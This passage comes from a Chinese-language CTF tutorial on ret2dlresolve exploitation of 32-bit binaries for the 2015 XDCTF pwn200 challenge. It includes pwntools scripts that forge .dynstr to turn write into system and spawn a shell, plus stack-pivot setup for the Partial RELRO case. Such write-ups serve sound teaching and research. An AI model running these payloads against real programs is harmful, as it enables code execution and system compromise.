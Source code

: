 ```python
'''
strtab_addr=0x0804824C #不可写
return_plt=0x080483A6
payload2=p32(read_plt)+p32(return_plt)+p32(read_arg1)+p32(strtab_addr)+p32(0x200) 
p.sendline(payload2)
p.sendline(fake_dynstr)
'''

dynstr=elf.get_section_by_name('.dynstr').data()
fake_dynstr=dynstr.replace('write','system')
strtab = 0x08049808 # .dynamic节中strtab的地址
payload2 = p32(0xdeadbeef)+p32(read_plt)+p32(0x080483A6)+p32(0)+ p32(strtab)+p32(7)+fake_dynstr
p.sendline(payload2)
#gdb.attach(p) #可以在这里下断点
payload3 = p32(bss_addr+0x300+24)+';sh'
p.send(payload3)
p.interactive()
```

> 另外，在脚本中下软件断点时极有可能会因为段错误无法getshell，这个原因可能与软件断点的本质有关：向内存中插入int3
>

### Partial RELRO
> [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2dlresolve/2015-xdctf-pwn200/32/partial-relro](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2dlresolve/2015-xdctf-pwn200/32/partial-relro)
>

接下来我们看一下如何应对开了Partial RELRO的程序，开了Partial-RELRO之后，因为.dynamic不再可写，所以不能再伪造.dynstr，只能另辟蹊径：

1⃣️在_dl_runtime_resolve函数解析的过程中并不会检查伪造的内容是否越界（大小范围进行限制），如reloc_arg，r_info，st_name

2⃣️解析的根源在于Elf32_Sym中的st_name成员

所以在Partial RELRO中的目标为篡改st_name为system。程序的保护如下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627885106689-f94ae8cc-2e43-4c66-9c73-8e97f82d22a7.png)

程序的gadget如下所示：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627886051061-9800cacb-724f-4a17-8dbd-22f2a862f1c5.png)

为了方便理解，这里采用分步式讲解，也就是一步一步的进行伪造：这里拿write(1,&bin_sh_addr,len("/bin/sh\x00"))来举例；假若在每一步中write函数可以成功的打印出"/bin/sh\x00"，那么就意味着将write变为system之后稍加对参数更改就可以执行system("/bin/sh")。

#### Part1
在这一部分中，我们仍将栈迁移到bss上，通过payload的形式模拟参数reloc_arg压入到栈中的操作（push reloc_arg），然后直接控制程序流到jmp _dl_runtime_resolve，解析地址完成之后，程序将调用write函数打印出payload送入的/bin/sh\x00。

首先还是栈迁移，这里和之前的一样就不说了：

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_partial_relro_32')
elf=ELF('./main_partial_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget=0x0804864b
leave_retn_gadget=0x08048465 #mov esp,ebp;pop ebp
three_pop_gadget=0x08048649


```
